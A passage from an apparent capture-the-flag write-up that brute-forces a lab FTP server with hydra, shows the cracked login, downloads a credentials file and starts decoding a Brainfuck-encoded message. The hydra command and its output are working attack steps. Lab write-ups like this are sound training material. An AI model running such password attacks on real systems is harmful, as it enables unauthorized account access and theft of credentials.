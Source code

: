 ```
### FTP Brute-Forcing
So it looks like we need to brute-force ftp server with this wordlist listed here. Let's copy this wordlist to another file and then use ```hydra``` to brute-force

```hydra -l ftpuser -P wordlist.txt ftp://10.10.100.98/ ```
```
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-01-22 10:36:53
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 82 login tries (l:1/p:82), ~6 tries per task
[DATA] attacking ftp://10.10.100.98:21/
[21][ftp] host: 10.10.100.98   login: ftpuser   password: 5iez[CUTTED]KKQ
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 10 final worker threads did not complete until end.
[ERROR] 10 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-01-22 10:37:17
```

Let's log in then to this user 

```$ ftp 10.10.100.98```
```
Connected to 10.10.100.98.
220 (vsFTPd 3.0.2)
Name (10.10.100.98:cloufisz): ftpuser
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0             758 Jan 23  2020 Eli's_Creds.txt
226 Directory send OK.
ftp>
```
We see the file ```Eli's_Creds.txt``` We can get this file with command

```get Eli's_Creds.txt```  -- inside ftp session
### Strange code/encoding
When viewing this file, we see
```
+++++ ++++[ ->+++ +++++ +<]>+ +++.< +++++ [->++ +++<] >++++ +.<++ +[->-
--<]> ----- .<+++ [->++ +<]>+ +++.< +++++ ++[-> ----- --<]> ----- --.<+
++++[ ->--- --<]> -.<++ +++++ +[->+ +++++ ++<]> +++++ .++++ +++.- --.<+
+++++ +++[- >---- ----- <]>-- ----- ----. ---.< +++++ +++[- >++++ ++++<
]>+++ +++.< ++++[ ->+++ +<]>+ .<+++ +[->+ +++<] >++.. ++++. ----- ---.+
++.<+ ++[-> ---<] >---- -.<++ ++++[ ->--- ---<] >---- --.<+ ++++[ ->---
--<]> -.<++ ++++[ ->+++ +++<] >.<++ +[->+ ++<]> +++++ +.<++ +++[- >++++
+<]>+ +++.< +++++ +[->- ----- <]>-- ----- -.<++ ++++[ ->+++ +++<] >+.<+
++++[ ->--- --<]> ---.< +++++ [->-- ---<] >---. <++++ ++++[ ->+++ +++++
<]>++ ++++. <++++ +++[- >---- ---<] >---- -.+++ +.<++ +++++ [->++ +++++
<]>+. <+++[ ->--- <]>-- ---.- ----. <
```
It looks like some code... reminds me of cipher code.
By googling just a tiny piece of this message, we see that it is...

![googling](https://i.imgur.com/R8Pc61w.png)
A fancy way of encoding message, and there's even decryptor, let's use it
```